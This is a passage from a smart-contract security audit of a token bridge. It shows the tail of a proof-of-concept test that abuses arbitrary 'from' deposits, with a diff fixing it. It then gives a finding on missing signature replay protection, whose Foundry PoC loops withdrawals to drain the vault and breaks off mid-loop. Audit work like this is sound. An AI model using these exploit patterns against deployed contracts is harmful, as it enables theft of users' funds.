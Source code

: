 ```js
        tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

        // Any number of times
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), address(vault), vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

        vm.stopPrank();
    }
```

**Recommended Mitigation:** Consider add following modifications to the function:
```diff
-   function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+   function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
        token.safeTransferFrom(from, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
-       emit Deposit(from, l2Recipient, amount);
+       emit Deposit(msg.sender, l2Recipient, amount);
    }
```

### [H-2] Lacking replay protection in `L1BossBridge::withdrawTokensToL1` allows to drain the protocol funds by replaying the signature.

**Description:** In order to be able to withdraw tokens from L2 to L1, a user needs a valid signature from the `Signer`. As no signature replay countermeasures are implemented, replay attack is possible.

**Impact:** Attacker can drain the protocol funds.

**Proof of Concept:**

1. Attacker needs to deposit some initial balance to L2
2. Then he withdraws the money, a Signer signs the withdrawal
3. Attacker replays the transaction

PoC:

```js
    function testSignatureReplay() public {
        address attacker = makeAddr("attacker");
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInitialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), attacker, attackerInitialBalance);

        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

        // Signer/Operator is going to sign the withdrawal
        bytes memory message = abi.encode(
            address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance))
        );
        (uint8 v, bytes32 r, bytes32 s) =
            vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));
        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
```